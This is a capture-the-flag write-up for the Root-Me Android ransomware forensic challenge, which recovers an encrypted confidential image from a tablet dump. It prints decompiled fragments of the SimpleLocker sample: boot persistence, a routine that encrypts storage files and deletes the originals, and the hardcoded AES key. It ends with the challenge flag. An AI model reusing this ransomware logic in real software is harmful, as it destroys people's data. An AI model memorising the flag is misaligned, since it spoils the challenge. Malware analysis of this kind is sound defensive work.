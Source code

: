# Ransomware Android
https://www.root-me.org/en/Challenges/Forensic/Ransomware-Android
```
The CISO Android tablet has been compromised by a ransomware, his confidential documents were encrypted. It is, of course, no question for us to pay the ransom, we would lose all our credibility. 
You have a part dump of his tablet and must restore these documents.
```

As the description mentioned, the ZIP file contains a dump of an Android file-system.<br>
In the _/app/_ directory there is only 1 APK (org.simplelocker-1.apk), in the _/app-lib/_ directory there is only 1 sub-directory (org.simplelocker-1) with 4 libraries (libobfsproxy.so, libprivoxy.so, libtor.so and libxtables.so), and the _/app-asec/_ and the _/app-private/_ are empty.<br>
The libraries' names are pretty suspicious. So identifing **org.simplelocker-1.apk** as the ransomeware is a pretty good guess.<br>
In this challenge, one or more documents had been encrypted. After a quick search, it seems like the only (important) file that suppose to be recovered is _/media/Documents/Confidentiel.jpg.enc_.<br><br>

After decompile the APK, the following AndroidManifest.xml was found:
```xml
<?xml version="1.0" encoding="utf-8" standalone="no"?><manifest xmlns:android="http://schemas.android.com/apk/res/android" android:installLocation="auto" package="org.simplelocker">
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
    <uses-permission android:name="android.permission.READ_PHONE_STATE"/>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    <uses-permission android:name="android.permission.WAKE_LOCK"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <application android:allowBackup="false" android:debuggable="true" android:label="@string/app_name">
        <activity android:launchMode="singleTop" android:name=".Main" android:theme="@style/AppTheme">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <receiver android:enabled="true" android:exported="true" android:name=".ServiceStarter">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED"/>
            </intent-filter>
        </receiver>
        <receiver android:enabled="true" android:exported="true" android:name=".SDCardServiceStarter">
            <intent-filter>
                <action android:name="android.intent.action.ACTION_EXTERNAL_APPLICATIONS_AVAILABLE"/>
            </intent-filter>
        </receiver>
        <service android:name=".MainService"/>
        <service android:enabled="true" android:exported="false" android:name="org.torproject.android.service.TorService">
            <intent-filter>
                <action android:name="org.torproject.android.service.ITorService"/>
                <action android:name="org.torproject.android.service.TOR_SERVICE"/>
            </intent-filter>
        </service>
    </application>
</manifest>
```

According to the manifest, there are 4 enabled services and 1 activity:
<ol>
  <li><b>.Main</b> activity, which is the application's launcher.</li>
  <li><b>.ServiceStarter</b>, which recieves an intent when the boot is completed (probably for starting).</li>
  <li><b>.SDCardServiceStarter</b>, which recieves the intent <i>ACTION_EXTERNAL_APPLICATIONS_AVAILABLE</i> which getting broadcast soon after the boot is completed (probably for starting the service).</li>
  <li><b>.MainService</b>.</li>
  <li><b>org.torproject.android.service.TorService</b>, which recieves intents from a TOR service.</li>
</ol><br>

The <b>.Main</b> activity seems to display something (not important), and it sends an intent (com.locker.MainServiceStart) to start the <b>.MainService</b>.<br>
The <b>.ServiceStarter</b> and the <b>.SDCardServiceStarter</b> services are pretty much the same - both send an intent (com.locker.MainServiceStart) to start the <b>.MainService</b>. Probably in order to keep the persistence of the ransomware after a reboot.<br>
The <b>org.torproject.android.service.TorService</b> is a known library. As the name implies, the service is used to communicate with a remote entity (in this APK the entity is 127.0.0.1:9050).<br><br>

So that leaves the <b>.MainService</b>.<br>
This service does bunch of stuff - communicate with a remote entity using TOR proxy, sets a _WakeLock_, schedule tasks and more. Because the APK is a ransomware, and because the challenge is to find an encrypted password, the following class seems interesting:<br>
```java
class C01165 implements Runnable {
    C01165() {
    }

    public void run() {
        try {
            new FilesEncryptor(MainService.this.context).encrypt();
        } catch (Exception e) {
            Log.d(Constants.DEBUG_TAG, "Error: " + e.getMessage());
        }
    }
}
```
A new object is initiated (FilesEncryptor) with the current context and the **encrypt** function is call.<br>
This is the **encrypt** function in the FilesEncryptor class:
```java
public void encrypt() throws Exception {
    if (!this.settings.getBoolean(Constants.FILES_WAS_ENCRYPTED, false) && isExternalStorageWritable()) {
        AesCrypt aes = new AesCrypt(Constants.CIPHER_PASSWORD);
        Iterator it = this.filesToEncrypt.iterator();
        while (it.hasNext()) {
            String fileName = (String) it.next();
            aes.encrypt(fileName, new StringBuilder(String.valueOf(fileName)).append(".enc").toString());
            new File(fileName).delete();
        }
        Utils.putBooleanValue(this.settings, Constants.FILES_WAS_ENCRYPTED, true);
    }
}
```
It's pretty easy to understand what's up.<br>
First, the function checks if the files are already encrypted (in order to not encrypt it twice) and if it's possible to change the data in the external storage.<br>
Then, an AES encryption instance is created (**AesCrypt**) with a key that presents in the **Constants** class.<br>
Afterward, it will iterate the files in the external storage and call the _encrypt_ function of the initiated **AesCrypt** object, and will delete the original file.<br>
Lastly, it will sets a boolean variable to ```true```, so the files won't get encrypted twice.<br><br>

According to the **Constants** class:
```java
...snip...
public static final String CIPHER_PASSWORD = "mcsTnTld1dDn";
...snip...
```
So the key is now known, let's see what's up at the **AesCrypt** class:
```java
...snip...
public AesCrypt(String password) throws Exception {
    MessageDigest digest = MessageDigest.getInstance("SHA-256");
    digest.update(password.getBytes(HTTP.UTF_8));
    byte[] keyBytes = new byte[32];
    System.arraycopy(digest.digest(), 0, keyBytes, 0, keyBytes.length);
    this.key = new SecretKeySpec(keyBytes, "AES");
    this.spec = getIV();
}

public AlgorithmParameterSpec getIV() {
    return new IvParameterSpec(new byte[16]);
}
    
public void encrypt(String rawFile, String encryptedFile) throws Exception {
    FileInputStream fis = new FileInputStream(rawFile);
    FileOutputStream fos = new FileOutputStream(encryptedFile);
    this.cipher.init(1, this.key, this.spec);
    CipherOutputStream cos = new CipherOutputStream(fos, this.cipher);
    byte[] d = new byte[8];
    while (true) {
        int b = fis.read(d);
        if (b == -1) {
            cos.flush();
            cos.close();
            fis.close();
            return;
        }
        cos.write(d, 0, b);
    }
}

public void decrypt(String encryptedFile, String rawFile) throws Exception {
    FileInputStream fis = new FileInputStream(encryptedFile);
    FileOutputStream fos = new FileOutputStream(rawFile);
    this.cipher.init(2, this.key, this.spec);
    CipherInputStream cis = new CipherInputStream(fis, this.cipher);
    byte[] d = new byte[8];
    while (true) {
        int b = cis.read(d);
        if (b == -1) {
            fos.flush();
            fos.close();
            cis.close();
            return;
        }
        fos.write(d, 0, b);
    }
}
```
Let's break it down a bit.<br>
First, in the constructor of the class a IV (which is an 16 zeros according to **getIV**) and akey generated from the given password (which we know already). The password seems to be a SHA-256 of the "mcsTnTld1dDn" - which is **d49af309a4c69382ff07bc6f83ba4c2595a7f086d3e5b69e119e2337cb75172d**.<br><br>

After we got the key and IV, we can decrypt the file. Fortunately, the **decrypt** function exists to do it for us (without writing a new script).<br>
So after copying the class to a new Java project, creating an instance (with "mcsTnTld1dDn") and running the **decrypt** function, it seems like an image was created.

In the end, the flag is **BullShitR4ns0mW4re**. Cool challenge which worths 35 points.
